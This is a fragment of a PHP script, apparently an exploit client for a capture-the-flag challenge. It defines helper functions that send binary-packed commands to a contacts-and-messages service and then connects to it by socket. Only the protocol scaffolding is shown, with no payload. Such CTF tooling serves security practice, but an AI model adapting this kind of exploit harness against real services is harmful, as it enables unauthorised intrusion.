 ```php
		$buffer .= str_pad($ip, 4 * ceil(strlen($ip) / 4), "\x00");
	}

	$buffer = str_pad($buffer, 4096, "\x00");
	$t->write($buffer);

	xdr_expect($t, "Add contacts success!\n");
}

function contact_list(Tube $t, $count = null)
{
	$buffer = pack("N", 2);
	$t->write($buffer);

	if($count !== null)
		return strs($t, $count);
}

function contact_del(Tube $t, $idx)
{
	$buffer = pack("NN", 3, $idx);
	$t->write($buffer);
	xdr_expect($t, "Delete contacts success!\n");
}

function msg_add(Tube $t, $idx, $msg, $fast = false)
{
	$buffer = pack("NNN", 4, $idx, strlen($msg)) . $msg;
	$t->write($buffer);

	if(!$fast)
		xdr_expect($t, "Add message success!\n");
}

function msg_list(Tube $t, $count = null)
{
	$buffer = pack("N", 5);
	$t->write($buffer);

	if($count !== null)
		return strs($t, $count);
}

function msg_del(Tube $t, $idx)
{
	$buffer = pack("NN", 6, $idx);
	$t->write($buffer);
	xdr_expect($t, "Delete message success!\n");
}


function msg_post(Tube $t, $idx)
{
	$buffer = pack("NN", 7, $idx);
	$t->write($buffer);
	xdr_expect($t, "send message success!\n");
}

printf("[*] Creating process\n");
$time = microtime(true);
//$t = new Process(COMMAND);
$t = new Socket(HOST, PORT);

```